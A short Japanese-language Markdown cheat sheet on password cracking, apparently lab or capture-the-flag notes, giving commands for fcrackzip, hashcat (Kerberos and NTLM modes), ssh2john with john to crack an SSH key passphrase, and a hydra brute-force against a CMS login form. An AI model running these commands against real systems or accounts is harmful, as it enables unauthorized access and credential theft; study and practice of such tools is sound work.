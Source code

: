 
# パスワード解析
## hash解析
### [crackstation](https://crackstation.net/)

## zip
****
### [fcrackzip](https://github.com/hyc/fcrackzip)
zipのパスワード解析

    frackzip -D -p /usr/share/wordlists/rockyou.txt backup.zip


### hashcat
****
example-hashsからモードを探す

    hashcat --example-hashes | grep -i krb
    hashcat --example-hashes | less

辞書を使ってクラック

    hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt


### ntlm
    hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt
    or
    hashcat --user -m 1000 hash /usr/share/wordlists/rockyou.txt

    hashcat --user -m 1000 hash --show


### john

sshのrsaのパスフレーズのクラック

    /usr/share/john/ssh2john.py id_rsa > id_rsa.txt
    john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.txt

    chmod 600 id_rsa
    ssh -i id_rsa orestis@10.129.1.1


### hydra

post
    hydra -l /usr/share/wordlists/metasploit/default_users_for_services_unhash.txt -p admin 10.129.1.185 http-post-form "/webservices/monstra-3.0.4/admin/index.php?id=filesmanager&path=uploads/:login=^USER^&password=^PASS^:Wrong"
